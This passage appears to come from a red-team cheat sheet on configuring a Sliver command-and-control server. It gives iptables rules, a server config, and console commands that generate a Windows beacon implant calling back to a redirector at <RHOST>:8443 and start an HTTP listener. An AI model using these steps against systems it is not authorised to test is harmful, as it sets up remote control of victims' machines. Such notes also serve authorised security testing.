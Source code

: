 #### Sliver Server Configuration

##### iptables

The `iptables` rules should only accept traffic for port `22/TCP` and from the `redirector`.

```console
$ /sbin/iptables -F
$ /sbin/iptables -P INPUT DROP
$ /sbin/iptables -P OUTPUT ACCEPT
$ /sbin/iptables -I INPUT -i lo -j ACCEPT
$ /sbin/iptables -A INPUT -p tcp --match multiport --dports 22 -j ACCEPT
$ /sbin/iptables -A INPUT -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
$ /sbin/iptables -A INPUT -s <RHOST> -j ACCEPT
$ /sbin/iptables -A INPUT -j DROP
$ /usr/sbin/netfilter-persistent save
$ /usr/sbin/iptables-save > /root/custom-ip-tables-rules
```

##### server.json

```json
{
    "daemon_mode": false,
    "daemon": {
        "host": "127.0.0.1",
        "port": 31337
    },
    "logs": {
        "level": 4,
        "grpc_unary_payloads": false,
        "grpc_stream_payloads": false,
        "tls_key_logger": false
    },
    "jobs": {
        "multiplayer": null
    },
    "watch_tower": null,
    "go_proxy": ""
```

#### Example

Create a `beacon` for the IP address of the `redirector`.

```console
sliver > generate beacon --http <RHOST>:8443 --os windows --arch amd64 --format exe --disable-sgn --seconds 30 --jitter 3 --save /PATH/TO/BINARY/
```

```console
sliver > http --lport 8443
```

## Villain
